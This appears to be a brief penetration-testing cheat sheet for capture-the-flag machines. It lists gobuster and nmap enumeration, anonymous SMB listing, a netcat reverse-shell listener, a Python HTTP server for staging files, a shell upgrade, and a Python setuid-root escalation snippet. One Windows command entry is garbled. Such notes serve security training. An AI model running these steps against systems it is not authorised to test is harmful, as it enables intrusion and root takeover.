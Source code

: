 basic gobuster directory search: gobuster dir --url http://{TARGET_IP}/ --wordlist
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php

to get functional shell use: python3 -c 'import pty;pty.spawn("/bin/bash")'

for SMB Client: smbclient -N -L \\\\{TARGET_IP}\\
-N : No password
-L : This option allows you to look at what services are available on a server


# ENUMERATION

## Basic NMAP Scan
nmap -sC -sV

# FOOTHOLD

## Reverse Shell (Run on KALI)
nc -lvnp 1234

## HTTP Server (Run on KALI)
sudo python3 -m http.server 80

# LATERAL MOVEMENT


# PRIVILEGE ELEVATION

## For Vulnerable Python (Run on TARGET)
/usr/bin/python[version]
import os
os.setuid(0)
os.system("/bin/bash")

# Exploitation

## Write file to console (Windows)
filename [filename]

## Write file to console (Linux)
cat [fileneame]

## Search Files for String (Linux)
cat * | grep -i [string]*
